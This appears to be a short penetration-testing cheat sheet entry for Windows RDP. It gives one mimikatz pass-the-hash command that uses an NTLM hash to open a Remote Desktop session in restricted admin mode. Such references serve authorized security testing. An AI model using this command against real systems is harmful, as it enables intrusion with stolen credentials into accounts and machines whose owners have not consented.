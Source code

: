 # windows
% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/RECON 

# powershell
% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/RECON  #tag/powershell 

# mimikatz

% mimikatz, pth
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/ATTACK/PTH


## mimikatz pth to RDP mstsc.exe
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:"mstsc.exe /restrictedadmin"
```
